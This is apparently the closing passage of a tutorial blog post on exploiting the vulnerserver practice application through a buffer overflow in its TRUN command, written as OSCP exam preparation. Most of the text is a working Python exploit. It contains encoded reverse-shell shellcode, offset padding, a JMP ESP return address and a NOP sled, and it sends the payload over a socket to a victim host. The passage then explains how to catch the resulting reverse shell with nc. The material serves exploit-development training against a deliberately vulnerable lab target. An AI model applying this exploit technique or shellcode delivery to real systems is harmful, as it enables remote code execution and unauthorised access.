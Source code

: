 ```python
shellcode += "\x4b\xe2\x21\xb2\x44\xdd\x52\xbd\x8e\x76\xf8\x44"
shellcode += "\x59\x73\xfd\x46\xd7\xeb\xff\x46\xf6\xb7\x76\xa0"
shellcode += "\x92\x57\xdf\x7b\x0b\xc1\x7a\xf7\xaa\x0e\x51\x72"
shellcode += "\xec\x85\x56\x83\xa3\x6d\x12\x97\x54\x9e\x69\xc5"
shellcode += "\xf3\xa1\x47\x61\x9f\x30\x0c\x71\xd6\x28\x9b\x26"
shellcode += "\xbf\x9f\xd2\xa2\x2d\xb9\x4c\xd0\xaf\x5f\xb6\x50"
shellcode += "\x74\x9c\x39\x59\xf9\x98\x1d\x49\xc7\x21\x1a\x3d"
shellcode += "\x97\x77\xf4\xeb\x51\x2e\xb6\x45\x08\x9d\x10\x01"
shellcode += "\xcd\xed\xa2\x57\xd2\x3b\x55\xb7\x63\x92\x20\xc8"
shellcode += "\x4c\x72\xa5\xb1\xb0\xe2\x4a\x68\x71\x12\x01\x30"
shellcode += "\xd0\xbb\xcc\xa1\x60\xa6\xee\x1c\xa6\xdf\x6c\x94"
shellcode += "\x57\x24\x6c\xdd\x52\x60\x2a\x0e\x2f\xf9\xdf\x30"
shellcode += "\x9c\xfa\xf5"

payload  = "A" * 2003 # fill up the buffer after calculating the offset
payload += struct.pack("<L", 0x625011AF) 
payload += "\x90" * 16
payload += shellcode

buffer_exploit = "TRUN /.:/" + payload

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)
print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```

## Obtaining a reverse shell
----

We can catch our incoming reverse shell with nc on our host system.

![vulnserver 9](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver9.png)

## Wrapup

We can start by auditing the source code of the vulnserver application, and while debugging it, we can crash it, calculate the buffer size of the user input function, and the use a JMP ESP instruction to JMP into a NOPSLED which hits our shellcode payload, all of this hits triggers our reverse shell payload which we catch with a nc connection listening on our set up local port.

This is great for the OSCP exam, don't be intimidated, but this is usually seen as the easiest and most trivial type of buffer overflow, if you enjoyed this exploitation journey, you may very well be developing a passion for exploit development, I encourage you to check out the next post in this series, and eventually... some of my new and utterly complex and extreme Windows exploits.

Have a great day!
